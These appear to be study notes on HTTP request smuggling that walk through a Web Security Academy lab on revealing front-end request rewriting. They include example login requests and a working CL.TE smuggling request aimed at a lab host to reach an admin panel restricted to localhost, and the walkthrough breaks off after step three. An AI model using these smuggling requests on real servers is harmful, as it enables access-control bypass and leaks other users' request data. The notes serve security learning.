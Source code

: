 Suppose an app has a login function that reflects the value of the `email` parameter:
```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

This results in a response containing the following:
```html
<input id="email" value="wiener@normal-user.net" type="text">
```

Here you can use the following request smuggling attack:
- to reveal the rewriting that is performed by the front-end server:
  ![[Pasted image 20240923154040.png|400]]

The requests will be rewritten by the front-end server:
- to include the additional headers
- then the back-end server will process the smuggled request 
- and treat the rewritten second request as being the value of the `email` parameter.
- It will then reflect this value back in the response to the second request

Since the final request is being rewritten,:
- you don't know how long it will end up. 
- The value in the `Content-Length` header in the smuggled request will determine how long the back-end server believes the request is.
  =>
	- If you set this value too short:
		- you will receive only part of the rewritten request;
		  
	- if you set it too long
		- the back-end server will time out waiting for the request to complete
=>
the solution is to:
- guess an initial value that is a bit bigger than the submitted request
- then gradually increase the value to retrieve more information
	- until you have everything of interest

#### Exploiting HTTP request smuggling to reveal front-end request rewriting
1. Browse to `/admin` and observe that the admin panel can only be loaded from `127.0.0.1`.
2. Use the site's search function and observe that it reflects the value of the `search` parameter.
3. Use Burp Repeater to issue the following request twice.
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```
